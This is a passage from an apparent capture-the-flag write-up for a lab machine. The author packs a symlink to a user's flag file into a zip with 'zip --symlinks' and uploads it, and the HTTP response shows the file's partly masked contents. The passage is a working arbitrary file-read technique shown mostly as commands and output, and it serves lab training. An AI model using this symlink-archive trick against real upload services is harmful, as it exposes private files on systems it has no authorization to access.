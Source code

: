 ![image-20240108181545476](../img/image-20240108181545476.png)

That’s file read!

I’ll note the user on this box is rektsu, and there’s also a mysql user. In
fact, I can make a payload that will return the user flag:

    
    
    oxdf@hacky$ ln -s /home/rektsu/user.txt user.pdf
    oxdf@hacky$ zip --symlinks user.zip user.pdf 
      adding: user.pdf (stored 0%)
    

On viewing it:

    
    
    HTTP/1.1 200 OK
    Date: Mon, 08 Jan 2024 23:19:47 GMT
    Server: Apache/2.4.54 (Ubuntu)
    Last-Modified: Mon, 08 Jan 2024 23:19:46 GMT
    ETag: "21-60e776efd7648"
    Accept-Ranges: bytes
    Content-Length: 33
    Connection: close
    Content-Type: application/pdf
    
    ea9a4d59************************
    

